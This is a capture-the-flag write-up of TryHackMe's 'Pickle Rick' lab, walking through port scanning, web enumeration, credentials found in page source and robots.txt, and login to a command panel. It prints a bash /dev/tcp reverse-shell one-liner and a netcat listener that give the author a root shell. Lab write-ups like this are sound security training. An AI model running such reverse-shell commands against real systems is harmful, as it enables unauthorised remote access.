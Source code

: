 ```yaml
---
title: TryHackMe - PickleRick
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe, Easy]
tags: [tryhackme, linux, rustscan, privesc, http, ssh, command_injection]
image:
    path: /assets/img/try%20hack%20me%20/Easy/Pickle_Rick/0.jpeg
    alt: Pickle_Rick
---
```


# Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application:

After deploying the machine, I got this IP address: 10.10.103.97

First step I ran a port scan using rust scan then passed the results to nmap for further enumeration.

## Command:
```sh
rustscan -a 10.10.103.97 --ulimit 5000 -- -sV -sC -A 
```
## Results:
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 74:70:7d:9f:98:e4:cd:52:32:c0:ff:f5:36:e1:d0:ee (RSA)
| ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABgQC1Vs3KBBL61RwHQIuO7T3eipuIl9cCXfeu2r2xeYuOgO3nDc5Ne5Obe3x7
vLHFgmWB+H9XvTfF2V0RzTaMrwbY3kl5SOEyO06li5hsOUkbAX5C0SNy7JuY4LUmO5yMl5uDLIRTnUxiINoQvs73s3
FiW7dW+JSP/g45BIpjcXjmT/PnpJFXdRNFRLM/
Q7qSBBiV9ZzSJaGZ7YTV0eKoTxVzCPgakYFfW73t1vHpbzj8iwsF90evJcJpL+YwngAEs0LouGGYZn5HR7W3OWIGX-
nBGNIl7ckVee+1CpGesNT3Cbo7on1b0QIV7D5V0hBroixInxLkUc+3Htz+2+FfF1a5N31iBDMOcF+lawOjh2l/
7v6q52PKUcDiqMkTikJ5k63rXQM1rLXgmOyQqTFrJ9vDdmw78w6LnJl1li2DxPVkBTDZepLahueKwqw/
+mjuTy4USEO5+eYL1fVtP4mrexN+TeSB6XEZozHnmI9Wg+m8RCZtRjnp/YXLrUxRUGvhUOJk=
|   256 05:f9:06:09:4a:e7:72:4c:db:90:8d:f9:39:36:b0:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJYDUeKr/1OZ7U6+X/
d8gUozr2898+u24rcy3LtI+9DFPNDJao7i7d6bAfwLA8q87Iy2PwhvE10Shgd328+GwdI=
|   256 55:28:85:f3:62:63:e3:db:4b:ca:a8:59:76:24:6c:15 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGA6kp/0ZDDDylA9pNJK9A5y/aIMSOfvJYhS739xdVGi
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Rick is sup4r cool

```
We have two open ports that is ssh (22) and http (80).

ssh will need user login details that we don't have yet so we'll skip that and move on to HTTP (80).



# WEB ENUMERATION  
  
## To Do list 

- Visit the site  
- Look around for any useful details  
- View the source code  
- Visit robots.txt  
- Run gobuster  



## The site
![](/assets/img/try%20hack%20me%20/Easy/Pickle_Rick/1.png)
From the content, I think I will have to use burp suite at some point.  
But let's continue and come back to it later on.


## Source code
![](/assets/img/try%20hack%20me%20/Easy/Pickle_Rick/2.png)

Here I get a username that is good.
- Username: R1ckRul3s

## Robots.txt
![](/assets/img/try%20hack%20me%20/Easy/Pickle_Rick/3.png)

Got this text but not sure what it is:  
- "Wubbalubbadubdub"

## Gobuster

## Command
```sh
gobuster dir -u http://10.10.103.97 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
The wordlist was taking some time and giving me lots of errors so I changed to ...../dirb/common.txt
![](/assets/img/try%20hack%20me%20/Easy/Pickle_Rick/4.png)


## Run nikto scan


```sh
nikto -h 10.10.103.97
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.103.97
+ Target Hostname:    10.10.103.97
+ Target Port:        80
+ Start Time:         2024-06-21 15:22:25 (GMT3)
---------------------------------------------------------------------------
## /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/
Web/HTTP/Cookies

```
![](/assets/img/try%20hack%20me%20/Easy/Pickle_Rick/5.png)

At least now I know what to do with the username and the other text from robots.txt:  
- username: R1ckRul3s  
- password: Wubbalubbadubdub  

Successful login  
![](/assets/img/try%20hack%20me%20/Easy/Pickle_Rick/6.png)


Here we can execute commands.  
Before that, I want to try something.  
I want to get a reverse shell to my machine. Hope it works.  

Here is a bash reverse shell :  

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```

Modified it to work with my IP:

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/1234 <&1'
```

Then made a nc listener on my attacker pc:

```sh
nc -lvp 1234
```

It worked. Now I have a shell....

The user has all root privs.  
# GO GET THE FLAGS!!!